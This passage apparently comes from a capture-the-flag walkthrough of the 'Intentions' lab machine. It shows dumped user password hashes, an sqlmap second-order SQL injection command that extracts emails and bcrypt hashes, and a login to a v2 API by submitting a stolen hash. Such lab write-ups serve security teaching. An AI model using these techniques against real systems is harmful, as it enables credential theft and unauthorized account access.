 ```console
| Eula Shields             | 0       | $2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY\\/ny1.kp\\/qFzU22t0aBNJHEMkg2     |
| Mariano Corwin           | 0       | $2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB\\/N2\\/lf76YTn1FQGiya     |
| Madisyn Reinger DDS      | 0       | $2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW         |
| Jayson Strosin           | 0       | $2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf\\/OhpXbkklsHoLdA8aVt3Ei       |
| Zelda Jenkins            | 0       | $2y$10$\\/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2       |
| Eugene Okuneva I         | 0       | $2y$10$k\\/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ\\/Cllvgy     |
| Mrs. Rhianna Hahn DDS    | 0       | $2y$10$0aYgz4DMuXe1gm5\\/aT.gTe0kgiEKO1xf\\/7ank4EW1s6ISt1Khs8Ma     |
| Viola Vandervort DVM     | 0       | $2y$10$iGDL\\/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa       |
| Prof. Margret Von Jr.    | 0       | $2y$10$stXFuM4ct\\/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa       |
| Florence Crona           | 0       | $2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy         |
| Tod Casper               | 0       | $2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou         |
| qwe                      | 0       | $2y$10$9SSTtn\\/oz9asQ4rIMa7jBeeZQRahsntDW1W1VFf0s8PFL\\/ATNPEly     |
+--------------------------+---------+----------------------------------------------------------------------+

$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --technique=U --batch -D intentions -T users -C email,password --dump
+-------------------------------+--------------------------------------------------------------+
| email                         | password                                                     |
+-------------------------------+--------------------------------------------------------------+
| steve@intentions.htb          | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa |
| greg@intentions.htb           | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m |
```

Login using v2 api with steve's username & hash:

```console
{"email":"steve@intentions.htb","hash":"$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa"}
---
{"status":"success","name":"steve"}
```

